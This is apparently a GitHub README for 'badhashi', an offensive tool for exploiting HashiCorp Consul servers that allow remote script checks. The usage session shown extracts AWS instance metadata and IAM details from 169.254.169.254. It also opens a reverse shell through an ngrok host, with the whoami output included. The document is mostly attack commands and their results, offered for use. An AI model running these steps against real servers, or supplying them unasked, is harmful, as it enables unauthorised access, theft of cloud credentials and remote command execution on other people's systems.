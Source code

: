 # badhashi
Scanning / Exploiting vulnerable hashicorp tools

![](https://github.com/grines/hashiscan/blob/main/badhashi.gif)

# Features Consul
- [X] AWS Meta data extraction
- [X] Status (Check if vulnerable
- [X] Reverse shell
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# Features Nomad (Coming soon)
- [ ] AWS Meta data extraction
- [ ] Status (Check if vulnerable
- [ ] Reverse shell ( Raw_exec/ exec / docker)
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# How
Start ngrok
./ngrok tcp 9000

Connected <http://127.0.0.1:8500>$ check status
DisableRemoteExec: true
EnableRemoteScriptChecks: true
NodeName: mini.hsd1.wa.comcast.net
Version: 1.9.3
Server: true

Connected <http://127.0.0.1:8500>$ exploit metadata
----
Check Registered
Waiting for command to register...
ID: Test
HTTP GET http://169.254.169.254/latest/meta-data/iam/info: 200 OK Output: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-25T06:15:20Z",
  "InstanceProfileArn" : "arn:aws:iam::*************************************",
  "InstanceProfileId" : "AIPA2LE*************"
}
Check Deregistered
---

(cmd ngrok-host ngrok-port local-port) ** can replace ngrok with external ip.
Connected <http://127.0.0.1:8500>$ exploit shell 2.tcp.ngrok.io 18563 9000
----
Check Registered
Waiting for callback...
2021/02/24 23:16:21 Listening on localhost:9000
Check Deregistered
---
Client 127.0.0.1:51771 connected.
bash-$: whoami
brian